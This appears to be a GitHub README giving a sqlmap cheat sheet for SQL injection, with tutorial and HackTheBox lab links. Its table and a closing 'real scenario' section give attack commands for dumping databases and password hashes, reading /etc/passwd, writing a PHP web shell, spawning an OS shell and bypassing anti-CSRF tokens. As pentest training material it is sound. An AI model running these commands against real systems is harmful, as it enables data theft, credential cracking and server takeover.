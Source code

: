### Learn about SQLmap
- [SQLmap tutorial for begineers](https://tryhackme.com/room/sqlmap)
- [SQLmap video tutorial](https://www.youtube.com/watch?v=pF7uz_ptuFc&ab_channel=ElPing%C3%BCinodeMario)
- [SQLmap extended video tutorial](https://www.youtube.com/watch?v=2y70Yj0oSxw&ab_channel=SEGURIDADCERO)
### Labs for practice
- [HTB Goodgames](https://app.hackthebox.com/machines/446)
- [HTB Validation](https://app.hackthebox.com/machines/382)

### Cheat Sheet

| **Command**                                                  | **Description**                                             |
| ------------------------------------------------------------ | ----------------------------------------------------------- |
| `sqlmap -h`                                                  | View the basic help menu                                    |
| `sqlmap -hh`                                                 | View the advanced help menu                                 |
| `sqlmap -u "http://www.example.com/vuln.php?id=1" --batch`   | Run `SQLMap` without asking for user input                  |
| `sqlmap 'http://www.example.com/' --data 'uid=1&name=test'`  | `SQLMap` with POST request                                  |
| `sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'` | POST request specifying an injection point with an asterisk |
| `sqlmap -r req.txt`                                          | Passing an HTTP request file to `SQLMap`                    |
| `sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'` | Specifying a cookie header                                  |
| `sqlmap -u www.target.com --data='id=1' --method PUT`        | Specifying a PUT request                                    |
| `sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt` | Store traffic to an output file                             |
| `sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch` | Specify verbosity level                                     |
| `sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"` | Specifying a prefix or suffix                               |
| `sqlmap -u www.example.com/?id=1 -v 3 --level=5`             | Specifying the level and risk                               |
| `sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba` | Basic DB enumeration                                        |
| `sqlmap -u "http://www.example.com/?id=1" --tables -D testdb` | Table enumeration                                           |
| `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname` | Table/row enumeration                                       |
| `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"` | Conditional enumeration                                     |
| `sqlmap -u "http://www.example.com/?id=1" --schema`          | Database schema enumeration                                 |
| `sqlmap -u "http://www.example.com/?id=1" --search -T user`  | Searching for data                                          |
| `sqlmap -u "http://www.example.com/?id=1" --passwords --batch` | Password enumeration and cracking                           |
| `sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"` | Anti-CSRF token bypass                                      |
| `sqlmap --list-tampers`                                      | List all tamper scripts                                     |
| `sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba` | Check for DBA privileges                                    |
| `sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"` | Reading a local file                                        |
| `sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"` | Writing a file                                              |
| `sqlmap -u "http://www.example.com/?id=1" --os-shell`        | Spawning an OS shell                                        |

## SQLMap Payloads in order to use on a real scenario

1. Basic Enumeration
```sql
sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba
```
2. Table Enumeration
```sql
sqlmap -u "http://www.example.com/?id=1" --tables -D [DATABASE_NAME]
```
